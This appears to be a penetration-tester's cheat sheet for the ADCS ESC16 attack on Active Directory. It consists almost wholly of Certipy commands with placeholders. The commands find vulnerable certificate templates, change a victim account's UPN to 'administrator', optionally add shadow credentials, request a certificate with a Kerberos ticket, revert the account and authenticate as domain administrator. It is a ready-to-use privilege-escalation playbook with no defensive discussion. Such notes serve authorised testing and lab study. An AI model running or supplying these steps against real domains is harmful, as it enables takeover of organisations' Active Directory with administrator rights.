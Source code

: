 # ADCS ESC16

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2. Read Victim User (optional)
```
certipy account \
    -u '<username>@<domain>' -p '<password>' \
    -dc-ip '<DC_IP>' -user '<VICTIM>' \
    read
```

## 3. Update Victim User
```
certipy account \
    -u '<username>@<domain>' -p '<password>' \
    -dc-ip '<DC_IP>' -upn 'administrator' -user '<VICTIM>' update
```

## 3a. Shadow Credentials (if needed)
```
certipy shadow \
    -u '<username>@<domain>' -p '<password>' \
    -dc-ip '<DC_IP>' -account '<VICTIM>' auto
```
## 4. Export Ticket
```
export KRB5CCNAME=<USERNAME>.ccache
```

## 5. Request certificate
```
certipy req \
    -k -dc-ip '<DC_IP>' \
    -target '<CA_FQDN>' -ca '<CA_HOST>' \
    -template 'User'
```
## 6. Revert Victim User
```
certipy account \
    -u '<username>@<domain>' -p '<password>' \
    -dc-ip '<DC_IP>' -upn '<VICTIM>@<domain>' -user '<VICTIM>' update
```

## 7. Authenticate
```
certipy auth -pfx administrator.pfx -dc-ip <DC_IP> -domain <domain>
```
